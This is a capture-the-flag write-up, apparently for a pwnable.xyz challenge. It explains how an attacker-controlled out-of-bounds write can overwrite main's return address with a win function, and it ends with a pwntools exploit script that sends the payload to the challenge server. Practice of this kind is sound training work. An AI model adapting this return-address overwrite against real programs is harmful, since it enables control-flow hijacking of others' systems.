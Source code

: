 The meat of the challenge is this part of code:

![oob](https://i.imgur.com/4mT7e1A.png)  

`rcx` `rdx` and `rax` have our 3 arguments (with this order). 
As we can see, `rcx` and `rdx` are added and the result goes to: `[rbp+rax*8+var_60]`.  
Well, we have complete control of this address because `rax` contains our 3rd argument.  
That means:
* We control **what** we want to write (result = `rdx`+`rcx`)
* We control **where** to write it (`rax`)  

So, we can set the address of `win` function as the return address of `main`.

* Set a breakpoint to see the `rbp` value when the result is stored (0x4008c3): **0x7fffffffdf50**  
* Set a breakpoint at the ret address of main (0x40090b): **`rsp` = 0x7fffffffdf58**   
`0x7fffffffdf58 - 0x7fffffffdf50 = 0x8` which means if we can make this `[rbp+rax*8+var_60]` have the value `rbp + 0x8`,
we will have overwritten the ret address of main with `win`.  

Quick mafs there: 
> rax*8 - 0x60 =  8   
=> rax*8 - 96 =  8   
=> rax - 12 = 1  
=> rax = 13  

`payload = win_addr + 0 + 13`  

### Exploit  
```python
#!/usr/bin/python3
from pwn import *

ip = 'svc.pwnable.xyz'
port = 30002
filename = './challenge'

def pwn():
	r = remote(ip, port)
	e = ELF(filename, checksec=False)
	
	win = e.symbols['win']
	num1 = str(win) 
	num2 = ' 0'
	num3 = ' 13'
	payload = num1 + num2 + num3
	r.sendlineafter(':', payload)
	r.sendlineafter(':', 'random')
	r.recvuntil(': ')
	flag = r.recvall().decode('utf8')
	log.success(flag)
	
pwn()
```
